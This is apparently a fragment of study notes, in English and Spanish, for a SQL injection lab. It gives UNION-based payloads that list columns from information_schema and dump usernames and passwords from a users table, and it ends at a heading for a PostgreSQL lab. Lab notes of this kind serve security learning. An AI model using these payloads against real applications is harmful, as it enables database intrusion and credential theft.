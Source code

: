 > **OPTIONAL:** Retrieve data from other tables, use code below payload to retrieve the contents of the `users` table.

```sql
'+UNION+SELECT+username,+password+FROM+users--
```

> Retrieve the names of the **columns** in the _**users**_ table.

Aqui siempre con el comando de los info_schema.tables ese siempre mostrara una tabla que es tipo users_infoRara por ejm: `users_hrrype` solo es un ejm. 

```sql
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_XXXX'--
```

> **Final** step is to the **dump data** from the username and passwords columns.

```sql
'+UNION+SELECT+username_XXXX,+password_XXXX+FROM+users_XXXX--
```

![](Pasted%20image%2020250222222512.png)

### LAB: EXTRAER MUTLIPLES VALORES EN UNA SOLA CONSULTA DE COLUMNA: `postgreSQL`
